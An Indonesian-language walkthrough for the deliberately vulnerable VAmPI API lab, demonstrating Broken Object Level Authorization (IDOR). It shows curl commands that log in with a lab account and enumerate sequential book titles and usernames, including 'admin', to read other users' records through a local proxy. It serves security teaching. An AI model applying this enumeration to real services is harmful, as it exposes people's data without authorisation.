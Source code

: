 # Broken Object Level Authorization
Penyerang dapat mengeksploitasi endpoint API yang rentan terhadap Broken Object Level Authorization (BOLA) / IDOR (Insecure Direct Object Reference) dengan memanipulasi ID objek yang dikirimkan dalam request. ID Objek dapat berupa apa saja, mulai dari bilangan bulat berurutan, UUID, atau string. Akses tidak sah terhadap objek pengguna lain dapat mengakibatkan pengungkapan data kepada pihak yang tidak berwenang, kehilangan data, atau manipulasi data. Celah keamanan ini ditemukan pada endpoint `/books/v1/{book_title}` dan `/users/v1/{username}`

- Login terlebih dahulu untuk mengakses endpoint `/books/v1/{book_title}` dengan akun yang sudah dibuat di proses instalasi kemudian copy nilai `auth_token`
```sh
curl http://IP_Server:5000/users/v1/login -d '{"username":"userapi","password":"12345"}' -H 'Content-Type: application/json' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%201.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%202.JPG)

- Akses endpoint `/books/v1/{book_title}` dan isi parameter `{book_title}` dengan format `bookTitle<nomor>`. Nomor bisa diganti dengan angka bulat (integer) berapapun hingga menemukan data, misalnya angka 1-100
```sh
curl http://IP_Server:5000/books/v1/bookTitle91 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%203.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%204.JPG)

- Akses endpoint dengan nilai paramter lainnya. Jika `auth_token` sudah expired silahkan lakukan login ulang copy nilai `auth_token` yang baru
```sh
curl http://IP_Server:5000/books/v1/bookTitle92 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%205.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%206.JPG)

- Kita menemukan data buku milik admin dengan `bookTitle15`
```sh
curl http://IP_Server:5000/books/v1/bookTitle15 -H 'Authorization: Bearer token' --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%207.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%208.JPG)

- Pada endpoint `/books/v1/{book_title}` kita mengakses data milik pengguna lain dengan menebak urutan parameter **book_title** seperti `bookTitle91`, `bookTitle92` dan `bookTitle15`. Angka 15, 91, dan 92 adalah contoh angka bulat yang berurutan antara 1-100. Seharusnya data tersebut tidak dapat dibaca oleh user yang bersangkutan. Inilah yang disebut dengan celah keamanan Broken Object Level Authorization (BOLA). Jika kita mengakses endpoint `/books/v1/{book_title}` tanpa parameter, kita dapat memperoleh seluruh data buku
```sh
curl http://IP_Server:5000/users/v1 --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%209.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2010.JPG)

- Sekarang kita coba akses endpoint `/users/v1/{username}` dan isi parameter `{username}` dengan format `name<nomor>`. Nomor bisa diganti dengan angka bulat (integer) berapapun hingga menemukan data, misalnya angka 1-100
```sh
curl http://IP_Server:5000/users/v1/name1 --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2011.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2012.JPG)

```sh
curl http://IP_Server:5000/users/v1/name2 --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2013.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2014.JPG)

```sh
curl http://IP_Server:5000/users/v1/admin --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2015.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2016.JPG)

- Pada endpoint `/users/v1/{username}` kita juga bisa mengakses data user dengan menebak urutan **username** seperti `name1` dan `name2`. Selain itu kita juga bisa menemukan data dengan username `admin`. Angka 1 dan 2 adalah contoh angka bulat yang berurutan antara 1-100. Sedangkan username `admin` adalah contoh username yang biasa digunakan untuk administrator. Seharusnya data tiap user hanya bisa diakses oleh user yang berwenang. Jika kita mengakses endpoint `/users/v1/{username}` tanpa parameter, kita dapat melihat seluruh data user
```sh
curl http://IP_Server:5000/users/v1 --proxy http://127.0.0.1:8080
```

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2017.JPG)

![alt text](https://github.com/rahardian-dwi-saputra/vampi-walkthrough/blob/main/assets/broken%20object%20level%20authorization/idor%2018.JPG)

